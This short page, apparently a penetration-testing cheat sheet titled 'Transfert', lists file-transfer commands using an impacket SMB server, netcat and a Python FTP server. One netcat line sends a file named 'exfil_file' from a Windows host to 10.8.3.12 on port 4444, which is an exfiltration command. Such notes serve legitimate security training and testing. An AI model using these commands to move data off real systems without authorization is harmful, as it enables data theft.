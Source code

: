 ```yaml
---
title: "Transfert"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


**SMB :**
- Linux machine: 
```sh
smbserver.py smb share/ -smb2support
```

- Windows machine: 
```sh
net use \\ip\smb
```

**NC :**
```sh
nc -lvnp 4444 > new_file #receving machine
nc.exe -vn 10.8.3.12 4444 < exfil_file #sending machine
```

**FTP :** 
```sh
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21
```

